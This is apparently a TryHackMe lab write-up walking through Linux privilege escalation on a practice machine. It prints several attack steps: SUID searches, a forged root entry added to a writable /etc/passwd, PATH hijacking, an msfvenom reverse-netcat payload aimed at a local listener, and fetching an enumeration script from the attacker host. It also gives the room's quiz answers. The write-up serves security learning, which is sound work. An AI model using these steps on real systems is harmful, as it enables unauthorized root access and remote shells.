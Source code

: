 ```yaml
---
layout: post
title: Write-Up [THM] Common Linux Privesc
categories: [Write-Ups]
tags: [TryHackMe, Linux, Bash, Privilege Escalation]
featured-image:  thm/linux-privesc/theme.png
featured-image-alt: Common Linux privesc
---
```


It's a write-up about the room : [Try Hack Me - Room : Common Linux Privesc](https://tryhackme.com/room/commonlinuxprivesc)

# [Task 1] Get Connected

> This room will explore common Linux Privilege Escalation vulnerabilities and techniques, but in order to do that, we'll need to do a few things first!

A basic knowledge of Linux, and how to navigate the Linux file system, is required for this room.

We deploy the instance. 

# [Task 2] Understanding Privesc

![Task 2](/assets/img/thm/linux-privesc/task-2.png)

# [Task 3] Enumeration

![Task 3](/assets/img/thm/linux-privesc/task-3.png)

# [Task 4] - Enumeration

* First, let's SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.
So, `ssh user3@IP_MACHINE` with the password `password`.

* What is the target's hostname?  

We o `hostname` to know the name of the machine. The answer is **polobox**.

* Look at the output of /etc/passwd how many "user[x]" are there on the system?  

We use the command `cat /etc/passwd | grep user` and find **8** users.

* How many available shells are there on the system? 

We download a local copy of LinEnum from [Linenum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). After that, we start a Python web server to get LinEnum on the target machine with :  

> Using Python 2: python2 -m SimpleHTTPServer   
> Using Python 3: python -m http.server

We get the LinEnum bash file using the command : `wget http://VPN_ADRESS:8000/LinEnum.sh`.  

We find the VPN_ADRESS corresponding to `utun` on the ouptut of the command `ifconfig` on the local machine.  

Make the file executable using the command `chmod +x LinEnum.sh` on the target machine, and execute this one : `./LinEnum.sh`. The output reveals to us : 

```
[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
```
So, there are **4** available shells on the system.

* What is the name of the bash script that is set to run every 5 minutes by cron? 

We search the bash script in the crontab : `cat /etc/crontab`.   
There is this line : `*/5  *    * * * root    /home/user4/Desktop/autoscript.sh`.  
Therefore, the name of the bash script thait is set to run every 5 minutes by cron is **autoscript.sh**. 

* What critical file has had its permissions changed to allow some users to write to it?

The file is **/etc/passwd**.

**Other file** : `linepeas.sh` available on this website [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

# [Task 5] - Abusing SUID/GUID Files

* What is the path of the file in user3's directory that stands out to you?

We use `pwd` and `ls` to know the path of the shell. We find **/home/user3/shell**.
After that we execute the binary `./shell`.

Synbollically : find / -perm -u=s -type f 2>/dev/null  
Numerically : find / -perm -4000 -type f 2>/dev/null


# [Task 6] - Exploiting Writeable /etc/passwd

We swap to user7 with `su user7` and the password `password`.  

* Having read the information above, what direction privilege escalation is this attack?

The direction privilege escalation is **vertical**.

* Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]". What is the hash created by using this command with the salt, "new" and the password "123"?

First, go to the home directory of the user7 : `cd /home/user7`.  
After that, we use : `openssl passwd -1 -salt new 123` and find the hash **$1$new$p7ptkEKU1HnaHpRtzNizS1**.

* Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

We create a new root user account with vi : `vi /etc/passwd` and we add this line :  
`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`.

The answer is `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`.

# [Task 7] - Escaping Vi Editor

We swap to user8 with `su user8` and the password `password`.  

* Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root? `NOPASSWD`

# [Task 8] - Exploiting Crontab

We swap to user4 with `su user4` and the password `password`.  

* What is the flag to specify a payload in msfvenom? `-p`

We create a payload using: `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`. 

* What directory is the "autoscript.sh" under? `/home/user4/Desktop`

# [Task 9] - Exploiting PATH Variable

We swap to user5 with `su user5` and the password `password`.  

* Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?   

We execute the binary `./shell` and this one do the same as **ls** command.

* Now we're inside tmp, let's create an imitation executable. The format for what we want to do is: echo "[whatever command we want to run]" > [name of the executable we're imitating]
What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating. `echo "/bin/bash" > ls`

* Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this? `chmod +x ls`